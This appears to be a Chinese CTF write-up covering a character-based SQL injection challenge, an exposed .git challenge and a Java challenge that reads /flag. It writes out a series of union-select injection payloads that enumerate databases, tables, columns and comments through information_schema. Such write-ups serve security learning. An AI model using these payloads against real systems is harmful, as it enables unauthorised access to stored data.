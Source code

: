 ![image-20241027205904769](D:\ctf wp\40.2.assets\image-20241027205904769.png)

题目提示 字符注入 且有两列

![image-20241027211537769](D:\ctf wp\40.2.assets\image-20241027211537769.png)

![image-20241027211720280](D:\ctf wp\40.2.assets\image-20241027211720280.png)

1") union select 1,database()#

![image-20241027212248704](D:\ctf wp\40.2.assets\image-20241027212248704.png)

1") union select database()，2#

![image-20241027212356988](D:\ctf wp\40.2.assets\image-20241027212356988.png)

1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x637466#![image-20241027212917480](D:\ctf wp\40.2.assets\image-20241027212917480.png)

1") union select 1,group_concat(column_name) from information_schema.columns where table_name="flag"#![image-20241027213023864](D:\ctf wp\40.2.assets\image-20241027213023864.png)

1") union select 1,scretdata from flag#![image-20241027213151662](D:\ctf wp\40.2.assets\image-20241027213151662.png)

根据提示，说明在注释里面  1") union select 1,column_comment from information_schema.columns#![image-20241027213448100](D:\ctf wp\40.2.assets\image-20241027213448100.png)





## 45.ez_gitt

![image-20241028133959712](D:\ctf wp\40.2.assets\image-20241028133959712.png)

查看.git ![image-20241028134403871](D:\ctf wp\40.2.assets\image-20241028134403871.png)



## 46.[Week1] jvav

![image-20241028135546332](D:\ctf wp\40.2.assets\image-20241028135546332.png)

import java.io.BufferedReader;
import java.io.FileReader;
import java.io.IOException;

public class demo {
    public static void main(String[] args) {
        String filePath = "/flag";  // 本地文件路径
        BufferedReader reader = null;

```
    try {
        reader = new BufferedReader(new FileReader(filePath));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);  // 输出每一行内容
        }
    } catch (IOException e) {
        System.out.println("文件读取错误: " + e.getMessage());
    } finally {
        try {
            if (reader != null) {
                reader.close();
            }
        } catch (IOException e) {
            System.out.println("关闭文件时出错: " + e.getMessage());
```

[在线查看 3D STL 文件]: https://imagetostl.com/cn/view-stl-online#convert